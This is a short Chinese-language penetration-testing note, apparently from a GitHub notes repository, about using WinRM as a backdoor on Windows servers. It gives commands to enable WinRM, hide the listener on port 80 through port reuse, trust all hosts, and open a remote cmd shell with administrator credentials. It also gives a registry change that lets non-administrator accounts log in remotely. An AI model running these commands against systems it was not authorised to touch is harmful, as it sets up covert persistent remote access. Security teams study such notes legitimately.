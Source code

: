 	WinRM端口5985，win2012以上默认启动，2008开启命令
	>winrm quickconfig -q
	2012启用端口复用
	>winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}
	2008启用WinRM后修改端口为80
	>winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
	后门连接和使用
	本地开启WinRM并设置信任连接主机
	>winrm quickconfig -q
	>winrm set winrm/config/Client @{TrustedHosts="*"}
	执行命令
	>winrs -r:http://10.1.1.100 -u:administrator -p:password ipconfig /all
	获取cmdshell
	>winrs -r:http://10.1.1.100 -u:administrator -p:password cmd
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/456.png)

	只administrator允许远程登录WinRM，允许其他用户可以登录，执行注册表
	>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f